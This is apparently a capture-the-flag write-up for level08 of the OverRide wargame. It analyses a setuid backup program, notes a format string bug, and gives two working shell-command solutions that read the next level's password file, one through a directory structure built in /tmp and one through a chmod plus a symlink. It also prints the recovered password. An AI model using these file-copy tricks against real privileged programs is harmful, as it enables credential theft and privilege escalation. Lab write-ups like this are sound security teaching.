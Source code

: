 # level08

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

<hr>

## Analysis

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program tries to create a copy of the file, provided as the first argument and store it in `./backups/` folder.

Here are the important things that source code analysis gives:

`log_wrapper` function is vulnerable to `format string attack`:
```c
void log_wrapper(FILE *file, char *src, char *format) {
    ...
    snprintf(buf, 254 - strlen(buf), format, strlen(buf));
    ...
}

int main(int ac, char **av) {
    ...
    log_wrapper(log, "Starting back up: ", av[1]);
    ...
}
```
I decided not to perform it, as `Full RELRO` is in this level meaning that `GOT` cannot be overwritten.
`NX disabled` meaning that program is 'opened' to shellcode injections, but there's a way more simple solution for this level.

Source file is opened by the filepath given in `argv`, whereas destination (copy) first catenates filepath from `argv` with
`./backups/` and then opens file. <br> 
```c
    // src
    file = fopen(av[1], "r");       
    ...
    // dst
    strcpy(filepath, "./backups/"); 
    strncat(filepath, av[1], 99 - strlen(filepath));
    fd = open(filepath, O_CREAT | O_EXCL | O_WRONLY, 0600); 
```

One more important thing is destination file opened with `O_EXCL`(read the spoiler to know about open flags). <br>
This means that `open` will fail if the file already exist.

<details>
<summary>Understanding open attributes</summary>

You can find open attributes `0xc1` and `0x1b0` in this file:
```bash
    level08@OverRide:~$ nano /usr/include/x86_64-linux-gnu/bits/fcntl.h
```
</details>

The last rule makes impossible to pass the path like this:
```bash
level08@OverRide:~$ ./level08 ../../../../../home/users/level09/.pass
ERROR: Failed to open ./backups/../../../../../home/users/level09/.pass
```

## Solution 1

```bash
# /tmp is a directory with write access
level08@OverRide:~$ cd /tmp

# create the same directory structure as absolute path to level09 
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09

# run with path and get the key!
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cd backups/home/users/level09/
level08@OverRide:/tmp/backups/home/users/level09$ cat .pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Solution 2

If we try to create symbolic link, we'll get permission denied error: 
```bash
level08@OverRide:~$ ln -s ../level09/.pass secret
ln: accessing `secret': Permission denied
```

The reason is current folder lacks of write rights:
```bash
level08@OverRide:~$ ll
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 ./
...
```

But we're in the home directory! So, let's fight this inequity:
```bash
level08@OverRide:~$ chmod +w .
level08@OverRide:~$ ll
total 28
drwxrwx---+ 1 level08 level08   100 Oct 19  2016 ./
...
```

Great! Now we can simply create symbolic link to the `.pass`:
```bash
level08@OverRide:~$ ln -s ../level09/.pass secret
level08@OverRide:~$ ./level08 secret 
level08@OverRide:~$ cat backups/secret
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## References
- [man open](https://man7.org/linux/man-pages/man2/open.2.html)
- [There are some info about RELRO](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) (Do not need here, but this level has Full RELRO, so it is good to know about it)
